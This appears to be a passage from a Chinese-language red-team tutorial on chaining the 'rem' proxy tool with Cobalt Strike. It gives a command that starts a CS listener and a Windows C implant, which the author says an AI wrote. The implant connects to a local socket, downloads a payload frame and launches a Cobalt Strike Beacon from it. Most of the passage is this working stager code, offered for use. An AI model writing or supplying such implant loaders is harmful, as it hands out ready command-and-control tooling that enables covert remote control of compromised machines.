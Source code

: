 然后rem构建对应协议的应用层为CS， 可以任意选择传输层
```
./rem -c [rem_link] -m proxy -l cs://:12345 -r raw://
```

implant需要自行实现，我让ai生成了一段简单的代码

```C
    WSADATA wsaData;
    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        printf("WSAStartup failed: %d\n", WSAGetLastError());
        return;
    }

    /* 创建 socket */
    SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == INVALID_SOCKET) {
        printf("socket failed: %d\n", WSAGetLastError());
        WSACleanup();
        return;
    }
    /* 配置服务器地址 */

    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(26019); // 指定端口，例如 12345
    server.sin_addr.s_addr = inet_addr("127.0.0.1"); // 指定 IP，例如本地 127.0.0.1
    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) == SOCKET_ERROR) {
        printf("connect failed: %d\n", WSAGetLastError());
        closesocket(sock);
        WSACleanup();
        return;
    }
    
    /* 从 socket 获取 payload */
    char *srvpayload = malloc(PAYLOAD_MAX_SIZE);
    if (!srvpayload) {
        printf("malloc failed\n");
        closesocket(sock);
        WSACleanup();
        return;
    }
    int srvpayloadLen = read_frame_sock(sock, srvpayload, PAYLOAD_MAX_SIZE);;

    /* 启动 Beacon */
    HANDLE handle_beacon = start_beacon(srvpayload, srvpayloadLen);
```

![](assets/Pasted%20image%2020250409235950.png)
